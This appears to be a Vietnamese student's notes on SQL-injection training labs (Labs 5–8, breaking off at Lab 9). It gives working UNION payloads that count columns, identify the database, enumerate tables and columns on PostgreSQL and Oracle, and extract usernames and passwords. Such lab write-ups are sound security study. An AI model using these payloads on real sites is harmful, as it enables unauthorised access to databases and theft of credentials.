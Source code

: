 1. **Lab 5: listing the database contents on PosgreSQL** 

<aside>
💡

To solve the lab, log in as the `administrator` user

</aside>

- Bài này dùng PostgreSQL, check bằng: `' UNION SELECT version(), NULL--`
- Kiểm tra cột: `' UNION SELECT 'a','b'--` ⇒ có 2 cột đều in ra string. Hoặc dùng `' ORDER BY 2--` cũng thấy 2 cột
- Ktra tên các bảng: `' UNION SELECT table_name, NULL FROM information_schema.tables--`
- Liệt kê các cột của bảng bất kỳ: `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_fumqot'--`
- In ra cột username và password của bảng: `' UNION SELECT **username_gusrrz, password_jvssju** FROM users_fumqot--`

1. **Lab 6: listing the database contents on Oracle**
- `' ORDER BY 2--` ⇒ có 2 cột
- `' UNION SELECT 'a', 'b' FROM dual --` ⇒ có in ra 2 cột là string
- Liệt kê tên các bảng: `' UNION SELECT table_name, NULL FROM all_tab_columns--`
- Liệt kê các cột của một bảng: `' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='**USERS_TNEQJR’**--`
- In ra cột username và password của bảng: `' UNION SELECT **PASSWORD_VJDSLS, USERNAME_WYPLDQ** FROM **USERS_TNEQJR**--`

1. **Lab 7: check số cột**

<aside>
💡

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values

</aside>

- `' ORDER BY 3--` ⇒ có 3 cột
- In 3 cột ra null: `' UNION SELECT NULL, NULL, NULL --`

1. **Lab 8: in ra data từ cột string**

<aside>
💡

To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

</aside>

- Bài này có 3 cột, cột thứ 2 in ra string, đề yêu cầu cột 2 in ra chữ `w5rBt0`
- Code: `' UNION SELECT NULL, 'w5rBt0', NULL --`
- Bonus: `' UNION SELECT NULL, version(), NULL --` ⇒ tìm dc loại CSDL trang web này là PostgreSQL

1. **Lab 9: retrieve data from other tables**

<aside>
💡
